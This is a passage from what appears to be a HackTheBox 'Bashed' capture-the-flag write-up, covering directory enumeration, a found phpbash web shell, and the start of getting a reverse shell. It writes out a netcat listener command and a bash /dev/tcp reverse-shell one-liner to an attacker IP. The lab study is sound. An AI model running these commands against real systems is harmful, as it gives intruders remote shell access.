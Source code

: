 Let's check if the gobuster has found anything.

![Gobuser Output](/HackTheBox/htb-bashed/4_gobuster.png)

There are few interesting directories found:

1. `/php`
2. `/dev`
3. `/uploads`

After checking out each, */dev* was the only interesting directory, which had the phpbash web shell in it.

![Phpbash Found](/HackTheBox/htb-bashed/6_phpbash1.png)

Let's see if it is actually working.

![Phpbash Working](/HackTheBox/htb-bashed/6_phpbash2.png)

Looks like it does work. Before we go any further, let's take a look at our complete port scan to ensure we are not rushing into something while leaving some information out.

Upon checking the results, there was only port 80 open. We can be sure that we haven't missed anything.

## Initial Access

Although we do have access to a web shell and a rather nice one, the web shell is only semi-functional. So let's get a reverse shell and then make it functional.

Since there's already a semi-functional shell on our hand we will send in reverse shell spawn commands from my <a href="https://noobsec.net/oscp-cheatsheet/#Linux" target="_blank">cheatsheet</a>

Ensure you have your listener on before you start sending in your reverse shell command:

```
sudo nc -nvlp 443
```

Before you start sending in reverse shell check what your IP is, I have messed this one too many times and kept wondering what's wrong.

Testing with `bash` reverse shell:

``` bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.11/443 0>&1"
```

Checking the listener after sending the command, nothing. Ok, no problem, let's try another one.

Let's check if it has `nc` present with the following command:

```
which nc
```

It is necessary to first check if the binary you want to leverage even exists or not on the target system. The above command prints out the location of nc on the system, great, let's test it out.
